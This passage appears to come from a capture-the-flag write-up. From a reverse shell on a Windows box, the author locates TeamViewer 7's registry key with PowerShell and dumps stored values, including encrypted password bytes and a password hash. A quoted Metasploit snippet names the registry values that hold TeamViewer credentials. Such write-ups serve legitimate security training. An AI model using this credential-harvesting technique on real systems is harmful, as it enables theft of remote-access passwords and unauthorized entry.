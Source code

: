 As you see, TeamViewer is running (This is of course a reference to the box name). Since this is a server, it should contain some credentials. Let's visit the TeamViewer directory (`c:\Program Files (x86)\TeamViewer`). I found a [Metasploit module](https://github.com/rapid7/metasploit-framework/blob/master//modules/post/windows/gather/credentials/teamviewer_passwords.rb), but that will not work on my reverse shell. So I checked the source of the module and found the correct registry key (version of TW installed is 7): `HKLM:\software\wow6432node\teamviewer\version7`. Let's try to extract credentials:

```
cd HKLM:\software\wow6432node\teamviewer\version7
PS HKLM:\software\wow6432node\teamviewer\version7>

get-itemproperty -path .

StartMenuGroup            : TeamViewer 7
InstallationDate          : 2020-02-20
InstallationDirectory     : C:\Program Files (x86)\TeamViewer\Version7
Always_Online             : 1
Security_ActivateDirectIn : 0
Version                   : 7.0.43148
ClientIC                  : 301094961
PK                        : {191, 173, 42, 237...}
SK                        : {248, 35, 152, 56...}
LastMACUsed               : {, 005056B9F592}
MIDInitiativeGUID         : {514ed376-a4ee-4507-a28b-484604ed0ba0}
MIDVersion                : 1
ClientID                  : 1769137322
CUse                      : 1
LastUpdateCheck           : 1629207277
UsageEnvironmentBackup    : 1
SecurityPasswordAES       : {255, 155, 28, 115...}
MultiPwdMgmtIDs           : {admin}
MultiPwdMgmtPWDs          : {357BC4C8F33160682B01AE2D1C987C3FE2BAE09455B94A1919C4CD4984593A77}
Security_PasswordStrength : 3
PSPath                    : Microsoft.PowerShell.Core\Registry::HKEY_LOCAL_MACHINE\software\wow6432node\teamviewer\vers
                            ion7
PSParentPath              : Microsoft.PowerShell.Core\Registry::HKEY_LOCAL_MACHINE\software\wow6432node\teamviewer
PSChildName               : version7
PSDrive                   : HKLM
PSProvider                : Microsoft.PowerShell.Core\Registry
```

In the Metasploit script, I see those lines, which tell me the registry key to look at:

```
locations = [
      { value: 'OptionsPasswordAES', description: 'Options Password' },
      { value: 'SecurityPasswordAES', description: 'Unattended Password' }, # for < v9.x
```

The next thing to do is to print out the `SecurityPasswordAES`:
